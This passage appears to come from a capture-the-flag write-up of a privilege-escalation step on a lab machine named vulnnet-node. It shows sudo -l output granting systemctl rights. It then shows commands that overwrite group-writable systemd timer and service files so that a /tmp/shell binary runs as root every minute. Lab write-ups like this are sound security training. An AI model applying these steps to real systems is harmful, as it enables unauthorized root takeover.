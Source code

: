 Try `sudo -l` again

```
$ sudo -l
Matching Defaults entries for serv-manage on vulnnet-node:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User serv-manage may run the following commands on vulnnet-node:
    (root) NOPASSWD: /bin/systemctl start vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl stop vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl daemon-reload
$ find / -name "vulnnet-auto.timer" -type f 2>/dev/null
/etc/systemd/system/vulnnet-auto.timer
```

We have *sudo* access with `/bin/systemctl` as `root` on the following files: `vulnnet-auto.timer`, `stop vulnnet-auto.timer`, and `daemon-reload`.

```
$ ls -l /etc/systemd/system/vulnnet-auto.timer
-rw-rw-r-- 1 root serv-manage 167 Jan 24  2021 /etc/systemd/system/vulnnet-auto.timer
$ ls -l /etc/systemd/system/vulnnet-job.service
-rw-rw-r-- 1 root serv-manage 167 Jan 24  2021 /etc/systemd/system/vulnnet-job.service
```

We concluded that `vulnnet-auto.timer` runs immediately `vulnnet-job.service` after booting and every 30 minutes. We also concluded that `vulnnet-job.service` is running `/bin/df` through `ExecStart`, the job now is to escalate to `root` user through this service.

Let’s modify these files

```
echo "[Unit]
Description=Run VulnNet utilities every 30 min

[Timer]
OnBootSec=0min
OnCalendar=*:0/1
Unit=vulnnet-job.service

[Install]
WantedBy=basic.target" > vulnnet-auto.timer
```

```
echo "[Unit]
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer

[Service]
# Gather system statistics
Type=forking
ExecStart=/tmp/shell

[Install]
WantedBy=multi-user.target" > vulnnet-job.service
```
